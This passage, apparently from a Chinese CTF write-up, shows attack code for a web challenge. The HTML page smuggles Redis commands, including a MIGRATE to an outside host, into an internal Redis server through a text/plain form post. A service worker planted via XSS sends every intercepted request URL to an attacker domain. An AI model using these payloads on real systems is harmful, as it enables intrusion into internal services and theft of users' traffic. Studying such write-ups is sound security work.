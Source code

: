 ```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
  </head>
  <body>
    <script type="text/javascript">
        function createForm(i){
            let form = document.createElement('form');
            form.action = 'http://172.25.0.104:6379';
            form.method = 'POST';
            form.enctype = 'text/plain';
            let input = document.createElement('input');
            input.name = 'set testkey 12345\x0d\x0aMIGRATE xxx.xxx.xxx.xxx 8888 testkey 0 1000\x0d\x0a';
            form.appendChild(input);
            document.body.appendChild(form);
            form.submit();
        }
        p = [];
        createForm(p);
        setTimeout(function() {
            window.location = 'http://xxx.xxx.xxx.xxx/?p=' + p;
        }, 3000);
    </script>
  </body>
</html>
```

其实从这里就已经走入死胡同了。。。。赛后看讨论才知道，要利用 chrome 中的 service worker 来拦截网络请求，22333，这里真的是知识盲区了。

https://developers.google.com/web/fundamentals/primers/service-workers

于是利用 XSS 的条件，在service worker 里注册一个任务来截取流量

```js
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://<domain>/ADMIN/' + e.request.url)
});
```

在自己VPS上进行如下部署

```html
<html><body>
<h1>Hello World</h1>
<script>
window.addEventListener('load', function() {
var sw = "https://pooot.challenges.ooo/<domain>/static/sw.js";
navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://<domain>/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://<domain>/SW/error", true);
    xhttp2.send();
  });
});
</script>
</body></html>
```
